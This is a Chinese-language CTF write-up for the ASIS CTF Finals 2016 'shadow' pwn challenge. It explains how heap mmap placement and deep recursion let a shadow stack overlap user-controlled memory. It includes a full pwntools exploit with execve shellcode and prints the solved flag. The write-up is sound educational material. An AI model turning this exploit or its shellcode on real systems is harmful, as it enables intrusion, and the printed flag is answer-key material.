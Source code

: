 ```yaml
---
title: "[ASIS CTF Finals 2016] shadow 99"
author: bruce30262
tags:
- pwn
- heap
- shadow stack
- ASIS CTF Finals 2016
categories:
- write-ups
date: '2016-09-14'
layout: post
---
```


## Info
> Category: pwn  
> Point: 99  
> Solver: bruce30262 @ BambooFox  
> 感謝 Ann Tsai 提供機器並幫忙跑 exploit，以及 angelboy 對 exploit 的指點 XD

## Analyzing  
32 bit ELF, 除了 stack guard 有開以外其他保護全部沒開

程式首先會用 `mmap` 配置一塊大小為 0x30000 的記憶體區塊，並將其當成 shadow stack 來使用，存放 return address。  

main function 裡面會先要我們輸入名字 (buffer 位址在 .bss 段)，之後我們可以選擇新增一個 beer，或是讀取/編輯一個 beer description。

新增一個 beer 時，程式會先要求 beer description 的長度，之後會呼叫 malloc 配置一塊相對應大小的 buffer 給我們輸入 beer description 的內容。至於讀取/編輯一個 beer description 則是會先要我們選擇要讀取/編輯的 beer，之後會印出 beer 的 description，並詢問我們是否要編輯 beer 的 description。此時如果輸入一個 invalid 的選項 ( not y or n )，程式會直接進行遞迴呼叫，再 call 一次該 function 並做同樣的事情，直到我們輸入 y 或 n 為止。

## Exploit  
這題關鍵的地方在於  

* 我們可以控制 malloc 的長度，以及 malloc 後 buffer 的內容
* 我們可以對程式做遞迴呼叫  

glibc 的 malloc 在 size 很大的時候 (超過 0x20000)，會改用 mmap 來進行動態的記體配置。而 mmap 出來的 memory page，會接在上一次 mmap 出來的 memory page 的前面。因此，透過第一點，我們可以嘗試去新增一個長度很長的 beer description，這樣程式在呼叫 mmap 之後**會將我們 beer description 的 buffer 接在 shadow stack 的前面。**  

之後我們可以嘗試對程式進行多次的遞迴呼叫，讓 shadow stack 不斷的 "往上長" (意即 shadow stack 的 top 位址會不斷得往前移)。只要 shadow stack 長到某一程度，就會跟我們 beer description 的 buffer 重疊在一起。此時我們再透過編輯 beer description 的功能，就可以改到 shadow stack 上的 return address，讓程式跳到我們想要的位址。這題因為只有 stack guard 的關係，可以執行 shellcode。 我們可以透過將 shellcode 塞入 name buffer，然後將 return address 改成 name buffer 位址的方式來跳 shellcode。

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "shadow.asis-ctf.ir"
PORT = 31337
ELF_PATH = "./shadow"

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
context.log_level = 'INFO'

elf = ELF(ELF_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def sc(arch=context.arch):
    if arch == "i386":
        # shellcraft.i386.linux.sh(), null free, 22 bytes
        return "\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x6a\x0e\x58\x48\x48\x48\x99\xcd\x80"
    elif arch == "amd64":
        # shellcraft.amd64.linux.sh(), null free, 24 bytes
        return "\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x31\xf6\x6a\x3b\x58\x99\x0f\x05"
    elif arch == "arm":
        # null free, 27 bytes
        return "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x09\x30\x49\x40\x52\x40\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68"
    elif arch == "aarch64":
        # 4 null bytes, total 35 bytes
        return "\x06\x00\x00\x14\xe0\x03\x1e\xaa\xe1\x03\x1f\xaa\xe2\x03\x1f\xaa\xa8\x1b\x80\xd2\x21\x00\x00\xd4\xfb\xff\xff\x97\x2f\x62\x69\x6e\x2f\x73\x68"
    else:
        return None

def add_one(size, desr):
    r.sendline("1")
    log.info("send desc length")
    r.sendlineafter("length?\n", str(size))
    log.info("send desc")
    r.send(desr)

if __name__ == "__main__":
    
    shellcode_addr = 0x0804a520
    shellcode = sc()

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    log.info("send name (shellcode)")
    r.sendlineafter("name?\n", shellcode)
    r.recvuntil("it?\n")

    log.info("add one beer")
    add_one(0x20000, "A"*(0x20000-4)+"BBBB")
    r.recvuntil("beer uploaded to the memory!\n")
    r.recvuntil("0\n")
    log.info("add beer done")

    log.info("choose desc")
    r.sendline("2") # choose desc
    r.sendline("0") # input index

    log.info("recieving BBBB")
    print r.recvuntil("BBBB")
    log.info("recieving rest output")
    print r.recvuntil("\n")
    print r.recvline()
    log.info("start stacking stack")

    maxx = 80000
    for i in xrange(maxx):
        check = i% 10000
        if check == 0:
            print i
        r.sendline("z")

    r.sendline('y')
    r.send(p32(shellcode_addr)*(0x20000/4))

    r.interactive()
```


不過因為主辦方網路不穩的關係，我自己跑 exploit local 端是可以 work，但是 remote 端會 timeout，因此最後是將 exploit 上傳到 trello 請隊友 Ann Tsai 幫忙跑。一開始跑的時候還是會在某個地方卡住，經過安博的指點之後修了一下 exploit，最後成功拿 shell 並得到 flag。  

flag: `ASIS{732f9beb138dbca4e44d5d184c3074dc}`